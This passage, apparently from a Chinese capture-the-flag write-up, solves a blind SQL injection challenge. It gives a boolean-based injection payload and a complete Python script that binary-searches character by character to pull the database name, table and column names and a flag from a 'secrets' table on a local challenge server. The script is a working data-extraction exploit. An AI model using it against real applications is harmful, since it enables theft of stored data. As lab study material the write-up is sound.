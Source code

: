 ![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732551265623-7353e2ec-a4ae-4131-b758-5be01f522383.png)

```sql
Alice'and((((ord(mid((Select(group_concat(secret_value))from(secrets)where((secret_value)like('flag%'))),1,1))))>1))#
```

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732552419074-92bbc7b5-30c2-43f4-a953-34ac843a12fe.png)

脚本如下

```sql
import requests
import time

url = "http://127.0.0.1:64146/?"
temp = {"student_name": ""}
column = ""
for i in range(1, 1000):
    time.sleep(0.02)
    low = 32
    high = 128
    mid = (low + high) // 2
    while (low < high):
        # 当前所在库
        # temp["student_name"] = "Alice'and(ord(mid((select(group_concat(database()))),%d,1))>%d)#" % (i , mid)
        # 表名
        # temp["student_name"] = "Alice'and((((ord(mid((select(group_concat(table_name))from(information_schema.tables)where((table_schema)like(database()))),%d,1))))>%d))#" %(i,mid)
        # 字段名
        # temp["student_name"] = "Alice'and((((ord(mid((select(group_concat(column_name))from(information_schema.columns)where((table_name)like('secrets'))),%d,1))))>%d))#" %(i,mid)
        # 内容
        temp["student_name"] = f"Alice'and((((ord(mid((Select(group_concat(secret_value))from(secrets)where((secret_value)like('flag%'))),{i},1))))>{mid}))#"
        r = requests.get(url, params=temp)
        time.sleep(0.04)
        print(low, high, mid, ":")
        if "Alice" in r.text:
            low = mid + 1
        else:
            high = mid
        mid = (low + high) // 2
    if (mid == 32 or mid == 127):
        break
    column += chr(mid)
    print(column)

print("All:", column)
```

### blindsql2
![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732595143240-b195c694-eb3a-4729-9a85-971a994e5322.png)
